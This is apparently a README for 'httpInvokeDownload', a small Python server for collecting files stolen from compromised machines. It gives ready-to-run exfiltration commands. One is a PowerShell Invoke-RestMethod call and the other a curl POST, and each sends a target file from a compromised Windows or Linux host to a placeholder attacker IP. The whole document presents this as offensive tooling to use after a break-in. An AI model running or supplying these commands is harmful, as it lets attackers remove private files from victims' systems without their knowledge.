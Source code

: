 # httpInvokeDownload
Small Python Server used to download files from a compromised host.

Run this server, then:
- run `Invoke-RestMethod -URI http://*attacker_ip*/*vercode*/*filename* -Method Post -InFile ”*target_file*”` on compromised Windows host.

- run `curl -X POST -d "$(cat *target_file*)" http://*attacker_ip*/*vercode*/*filename*` on compromised Linux host.
